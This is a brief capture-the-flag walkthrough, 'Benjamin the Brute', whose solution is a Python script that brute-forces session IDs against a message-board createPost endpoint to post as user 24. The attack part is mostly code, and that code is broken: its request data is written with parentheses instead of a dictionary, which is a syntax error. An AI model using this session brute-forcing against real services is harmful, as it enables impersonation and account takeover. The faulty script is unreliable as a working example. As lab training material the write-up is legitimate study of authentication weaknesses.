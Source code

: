# Benjamin the Brute
Agent 707, one of the gang, Benjamin Goldleaf, was yesterday overheard by our inside undercover agent talking about posting notices on a secret message board that the gang use to communicate meeting times.

With a bit of detective work we've managed to find the message board and get Bens user details. We want to post a fake message using the API to try and draw one of the more senior gang members out, but we can't get it to work. See if you can.

**Tip:** Successfully post a notice on the board to get the flag.

## Steps
1. Write Python code

```python
import requests, re

URL = "https://bondogge.com/createPost"

sess_id = 0
while True:
    request_html = requests.post(URL, data=("userID": 24, "sessID": str(sess_id))).text

    if not re.search("Error", request_html):
        print(request_html)
        break

    sess_id += 1
```

![python code](/assets/screenshots/hq-11-BenjamintheBrute.png)